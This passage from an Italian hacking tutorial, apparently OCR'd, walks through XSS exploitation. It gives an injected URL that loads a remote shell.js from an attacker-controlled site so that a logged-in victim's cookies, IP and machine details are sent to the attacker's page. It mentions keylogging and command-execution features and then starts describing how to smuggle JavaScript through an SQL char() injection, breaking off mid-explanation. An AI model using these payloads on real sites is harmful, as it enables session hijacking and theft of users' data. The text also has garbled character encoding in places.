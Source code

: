 mentre in shell.js dobbiamo settare l'url e altro(troverete istruzioni dettagliate

all'interno dello stesso)).
Adesso supponiamo di aver trovato un xss su un sito che ci permette di includere javascript

code, possiamo quindi scrivere:

http://sitovittima.com/vuln.php?x=1">/XaDoS/><script

src="http://nostrosito.com/shell.js"></script>

facendo cliccare come al solito alla vittima il nostro cattivissimo indirizzo questa volta

succederÃ  qualcosa di diverso:

Essendo l'utente collegato e loggato ad il sitovittima in questione attraverso la shell.js

nella nostra pagina privata jsback.php ci appariranno i suoi cookies! ma non solo: il suo

ip, informazioni riguardanti la sua macchina ecc.. in piÃ¹ grazie a questa particolare pagina

ci sono altre funzioni come keylogger/esecuzione comandi/proxy/ CSRF(di cui tratterÃ² nel

prossimo capitolo) ecc
che perÃ² potrete vedere sul sito degli autori (Inj3ct-it).

Capite quindi che .. non si scherza con le XSS !! ;-)





Code:
[!] Le XSS stanno sempre bene con le SQL: una dentro l'altra

Quanti di voi sanno quanto spesso cpaita che uno trovi una SQL e scopri in seguito che la

stessa variabile buggata Ã¨ vuln a XSS; oppure, ancora meglio, quante volte capita che ci si

trova davanti ad una XSS e poco dopo trovi qualcuno che ti dice:"hey! ma qui c'Ã¨ un sql!"(

s3rg3770 :) )
Bene possiamo quindi giungere alla conclusione che stanno bene insieme.

Ma se vi dicessi che UNa puÃ² perfino stare dentro l'altra?
suona strana come frase vero..
VI spiego bene:
Semplicemente una volta trovata una sql, possiamo benissimo usare il nostro solito comando

char()

in modo un po' stravagante:

come sappiamo di solito inseriamo del codice, convertito in ASCII. Ma allora se provassimo

ad inserire codice JavaScript ?? su, proviamoci.
Passiamo subito al codice:

abbiamo la nostra tipica XSS:

<script>alert('xssbyXaDoS')</script>

e vorremmo inserirla nell'SQL..ma ricordiamoci
che dobbiamo convertirla in ASCII per far si che ritorni l'alert;
quindi attraverso un normalissimo ASCII converter nel web la convertiamo in:
